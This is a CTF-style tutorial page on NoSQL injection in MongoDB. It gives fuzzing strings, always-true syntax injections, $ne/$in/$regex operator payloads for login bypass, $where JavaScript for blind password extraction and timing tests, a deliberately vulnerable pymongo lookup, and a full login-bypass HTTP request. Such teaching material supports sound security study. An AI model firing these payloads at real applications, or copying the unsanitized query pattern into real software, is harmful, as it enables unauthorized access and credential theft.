 ```yaml
---
title: "NoSQL Injection"
description: "Exploit unsanitized NoSQL queries in MongoDB or similar databases to bypass authentication or extract documents."
date: 2025-10-06
draft: false
categories: ["Web"]
tags: ["nosql", "mongodb", "injection", "ctf"]
authors: ["CTF.Support Team"]
summary: "Understand how crafted JSON input can manipulate NoSQL queries, leading to authentication bypass or data retrieval."
aliases: ["/web/nosql-injection/"]
slug: "nosql-injection"
toc: true
---
```


## Introduction

NoSQL databases like MongoDB rely heavily on JSON objects, which can be manipulated by attackers if input is not sanitized.

If exploited, NoSQL Injection can allow attackers to:

- Bypass authentication or authorization checks.  
- Extract or modify data from collections.  
- Perform denial‑of‑service actions with heavy queries.  
- Execute JavaScript on the database server (via `$where` or `mapReduce()` in MongoDB).

## Types of NoSQL Injection

| Type                   | Description                                                                                                          |
|------------------------|----------------------------------------------------------------------------------------------------------------------|
| **Syntax Injection**   | Breaks the query syntax to inject arbitrary logic. Similar to SQLi but varies between databases and query languages. |
| **Operator Injection** | Abuses built‑in query operators (`$ne`, `$in`, `$regex`, `$where`) to override or manipulate query conditions.       |

Most attacks target **MongoDB**, but the same principles apply to CouchDB, Redis, and other JSON‑based stores.

## Detecting Vulnerabilities

Try fuzzing each user‑controlled input with special characters to determine whether the application parses them within queries.

Example payload (for URL parameter):

```text
?param='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```

Differences in server responses, errors, filtered output, or longer load time, suggest NoSQL parser interaction.

### Character Testing

Inject individual characters such as `'`, `"`, `\`, `;`, `{`, `}` to see which break the query string.

### Conditional Behavior Testing

Send boolean variants:

```text
?param=test'+%26%26+0+%26%26+'x

?param=test'+%26%26+1+%26%26+'x
```

Different responses confirm code evaluation.

## Syntax Injection Exploitation

Once control is confirmed, override existing conditions with always‑true statements:

```text
?param=test'||1||'
```

This becomes:

```js
this.param == 'fizzy' || '1'=='1'
```

You can also append a **null byte** (`%00`) to truncate remaining query parts:

```text
?param=test'%00
```

## Operator Injection Examples

For JSON requests:

```json
{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}
```

Logs in as the first user (often `admin`).

Target a specific user:

```json
{"username":{"$in":["admin","administrator"]},"password":{"$ne":""}}
```

Use `$regex` to extract data:

```json
{"username":"admin","password":{"$regex":"^a"}}
```

## Data Extraction via Operators and JavaScript

If `$where` or `mapReduce()` is supported, execute JavaScript within queries:

```js
{"$where":"this.password[0] == 'a'"}
```

Iterate characters to rebuild credentials.

Check for digits using regex:

```js
{"$where":"this.password.match(/\\d/)"}
```

Blind extraction with `$regex`:

```js
{"password":{"$regex":"^a.*"}}
```

Timing‑based test:

```js
{"$where":"sleep(5000)"}
```

## Example (Python)

```python
from pymongo import MongoClient

def get_user(username):
    client = MongoClient('mongodb://localhost:27017/')
    db = client['users']
    query = {'username': username}
    return db.users.find(query)

username = input('Enter a username: ')
print(list(get_user(username)))
```

Injection:

```json
{"$ne": null}
```

Resulting query:

```json
{ "username": {"$ne": null} }
```

This bypasses user filtering and returns all results.

### Example: Bypassing Login Using $ne

```text
POST /login HTTP/1.1
Host: target.ctf
Content-Type: application/json

{
  "username":{"$ne":""},
  "password":{"$ne":""}
}
```

If both fields parse operators, the query becomes:

```js
db.users.find({ "username": { $ne: "" }, "password": { $ne: "" } })
```

and logs you in as the first user (often `admin`).

## Tips

- Input contexts to test: query filters, `$where` clauses, `$regex`, `$gt/$lt`.
- Use JSON-oriented payloads (`{"$ne": null}` or `{"$gt": ""}`).
- Escape or validate JSON structures before execution.
- In blind challenges, look for time-based payloads using heavy operations.
